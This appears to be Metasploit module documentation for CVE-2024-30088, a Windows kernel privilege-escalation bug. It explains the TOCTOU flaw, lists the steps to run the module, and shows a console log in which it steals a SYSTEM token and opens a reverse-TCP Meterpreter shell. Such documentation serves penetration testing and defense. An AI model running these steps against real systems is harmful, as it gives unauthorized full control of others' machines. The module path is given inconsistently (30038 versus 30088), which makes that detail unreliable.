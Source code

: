 ## Vulnerable Application
CVE-2024-30088 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability exists inside the function called `AuthzBasepCopyoutInternalSecurityAttributes` specifically when
the kernel copies the `_AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION` of the current token object to user mode. When the
kernel preforms the copy of the `SecurityAttributesList`, it sets up the list of the SecurityAttribute's structure
directly to the user supplied pointed. It then calls `RtlCopyUnicodeString` and
`AuthzBasepCopyoutInternalSecurityAttributeValues` to copy out the names and values of the `SecurityAttribute` leading
to multiple Time Of Check Time Of Use (TOCTOU) vulnerabilities in the function.

### Setup

Windows 10 22H2 versions without the patch (before 10.0.19045.4529) are vulnerable out of the box.
This exploit module has been tested on Windows 10 version 22H2 build 19045.2965.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_30038_authz_basep`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 (10.0 Build 19045.2965)
```
msf6 > use windows/local/cve_2024_30038_authz_basep
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2024_30038_authz_basep) > set session -1
session => -1
msf6 exploit(windows/local/cve_2024_30088_authz_basep) > exploit

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows 10+ Build 19045
[*] Reflectively injecting the DLL into 696...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 3432
[+] Successfully retrieved winlogon pid: 452
[*] Sending stage (201798 bytes) to 172.16.199.208
[*] Meterpreter session 18 opened (172.16.199.1:5555 -> 172.16.199.208:52890) at 2024-08-30 12:45:49 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FGNRA7E
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
